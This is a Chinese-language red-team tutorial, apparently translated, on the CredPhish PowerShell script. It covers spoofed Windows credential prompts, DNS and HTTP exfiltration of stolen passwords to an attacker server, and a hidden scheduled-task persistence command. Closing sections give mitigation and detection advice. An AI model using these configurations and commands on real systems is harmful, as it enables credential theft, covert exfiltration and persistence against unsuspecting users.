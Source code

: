 ```yaml
---
date: 2025-08-03T18:13:46+08:00
title: 使用PowerShell进行用户密码钓鱼的技术解析
tags: [网络安全, PowerShell, 钓鱼攻击, 红队技术]
authors: qife
description: 本文详细介绍了如何利用PowerShell脚本CredPhish进行密码钓鱼攻击，包括技术原理、配置方法、数据外传技术以及防御建议，适合安全研究人员了解此类攻击手法。
---
```


# 使用PowerShell进行用户密码钓鱼的技术解析

**tokyoneon** //  
伪造凭证提示是一种有效的权限提升和横向移动技术。在Windows环境中，用户经常会遇到看似随机的密码提示，例如Outlook、VPN和其他各种认证协议。攻击者会滥用Windows和PowerShell内置功能来调用凭证弹窗以获取用户密码。

根据**MITRE ATT&CK框架**的定义：  
“当需要额外权限的程序执行时，操作系统通常会提示用户输入正确的凭证以授权任务的提升权限。攻击者可能会模仿常见的操作系统组件，通过PowerShell等语言显示看似合法的凭证提示。”

## 什么是CredPhish？  
CredPhish是一个PowerShell脚本，旨在调用凭证提示并窃取密码。它依赖于**CredentialPicker API**收集用户密码，使用PowerShell的**Resolve-DnsName**进行DNS外传数据，并利用Windows Defender的**ConfigSecurityPolicy.exe**执行任意GET请求。

下图展示了CredPhish的实际操作。请注意，在Windows安全提示中提交凭证后，凭证会立即发送到攻击者的DNS服务器。

默认情况下，CredPhish会使用PowerShell内置的DNS解析器**Resolve-DnsName**外传凭证。它会将凭证中的每个字符转换为十六进制值，将转换后的值分成预定义的块，并将这些块放入热门网站的子域名中。以下截图显示了十六进制形式的外传凭证示例。注意“tokyoneon”的十六进制值（746f6b796f6e656f6e）出现在google.com和office.com的子域名中。

在解析DNS查询之前，DNS服务器会剥离十六进制子域名以避免生成大量错误响应。在下面的Wireshark截图中，请注意“Answers”字段不再包含子域名，并成功解析为Google的一个IP地址。

## CredPhish.ps1配置  
CredPhish.ps1设计为一个独立的脚本，不需要**Import-Module**（这是一种常见的攻击指标）。可配置选项以变量的形式位于PS1脚本的顶部，以避免冗长的命令行参数。

第一行是最重要的，它定义了外传数据的接收地址（即攻击者的Kali服务器）：
```powershell
# exfil address  
$exfilServer = "192.168.56.112"
```

接下来的几个变量定义了提示框对目标用户的显示方式。**$promptCaption**定义了请求凭证的“应用程序”（例如“Microsoft Office”），而**$promptMessage**通常指定与请求关联的账户。
```powershell
# prompt
$targetUser = $env:username
$companyEmail = "blackhillsinfosec.com"
$promptCaption = "Microsoft Office"
$promptMessage = "Connecting to: $targetUser@$companyEmail"
$maxTries = 1 # 提示框的最大调用次数
$delayPrompts = 2 # 提示框之间的延迟（秒）
$validateCredentials = $false # 如果凭证有效，则中断$maxTries并立即外传
```

**$maxTries**变量定义了提示框在目标提交凭证之前显示的次数。默认值为**1**以避免引起怀疑。**$delayPrompts**变量定义了每次提示之间的延迟时间（如果**$maxTries**大于1）。**$validateCredentials**默认禁用，它会尝试通过在高权限上下文中使用**Start-Process**来本地验证提交的凭证。如果启用且凭证验证通过，则忽略**$maxTries**，数据会立即发送到攻击者的服务器。

## 数据外传方法  
如前所述，DNS外传是默认的密码传输方法。**$exfilDomains**列表包含用于DNS查询的各种域名，并随机选择。**$subdomainLength**变量确定每个子域名的期望长度。
```powershell
# dns
# 在Kali中启动DNS服务器：python3 /path/to/credphish/dns_server.py
$enableDnsExfil = $true
$exfilDomains = @('.microsoft.com', '.google.com', '.office.com', '.live.com') # 用于DNS外传的域名
$randomDelay = get-random -minimum 5 -maximum 20 # DNS查询之间的随机延迟
$subdomainLength = 6 # 子域名的最大字符数。必须是2-60之间的偶数，否则查询会中断
```

要拦截通过DNS外传功能发送的凭证，请在Kali中执行**dns_server.py**脚本。按**Ctrl + c**终止DNS服务器，它将重建拦截的明文凭证。

CredPhish内置的另一种外传方法是HTTP请求。它利用Windows Defender中包含的二进制文件“ConfigSecurityPolicy.exe”将凭证发送到攻击者的服务器。将**$enableHttpExfil**变量设置为**$true**以启用它。
```powershell
# http
# 在Kali中启动HTTP服务器：python3 -m http.server 80
$enableHttpExfil = $false
$ConfigSecurityPolicy = "C:\Prog*Files\Win*Defender\ConfigSecurityPolicy.exe"
```

要拦截通过**ConfigSecurityPolicy.exe**发送的凭证，请在Kali中启动一个简单的HTTP服务器以在日志中捕获它们。

在网络中，外传的凭证会显示如下：
```
GET /DESKTOP-S4DAAF0%5Btokyoneon%3A%23!Extr3m3Ly_%26ecuRe-P%40ssw%25rD%23%5D HTTP/1.1  
Accept: */*  
UA-CPU: AMD64  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)  
Host: 192.168.56.104  
Connection: Keep-Alive
```

由于凭证在传输前进行了URL编码，可以使用Burp的Decoder模块或Python的**urllib**库通过命令行进行URL解码。
```python
>>> from urllib.parse import unquote  
>>> unquote("/DESKTOP-S4DAAF0%5Btokyoneon%3A%23!Extr3m3Ly_%26ecuRe-P%40ssw%25rD%23%5D")  
'/DESKTOP-S4DAAF0[tokyoneon:#!Extr3m3Ly_&ecuRe-P@ssw%rD#]'
```

## CredPhish.ps1执行  
要快速测试CredPhish，请将**credphish.ps1**移动到目标Windows 10机器并使用PowerShell执行它。

一种持久化执行方法可能涉及**任务计划程序**，这是Windows的一个组件，允许在预定义的时间间隔调度脚本执行。以下**schtasks**示例将每2分钟执行一次**credphish.ps1**。
```powershell
schtasks /create /sc minute /mo 2 /tn "credphish" /tr "powershell -ep bypass -WindowStyle Hidden C:\path\to\credPhish\credphish.ps1"
```

## 缓解与检测  
CredPhish源自**Invoke-LoginPrompt**、**CredsLeaker**和**Stitch**等项目，并不是密码钓鱼的终极解决方案。由于此类攻击通常非常针对用户，因此仍有改进空间。更激进的方法可能涉及使用Cobalt Strike伪造整个Windows 10锁屏并通过这种方式捕获凭证。

这类攻击技术难以通过预防性控制措施缓解，因为它们滥用了系统功能。**MITRE ATT&CK框架**建议：  
- 通过**用户培训**提高对潜在恶意事件和对话框（例如Office文档提示输入凭证）的意识和警惕性。  
- 监控进程执行，检测异常程序和恶意实例的**命令和脚本解释器**，这些程序可能会提示用户输入凭证。  
- 检查并审查输入提示的非法性指标，例如非传统的横幅、文本、时间和/或来源。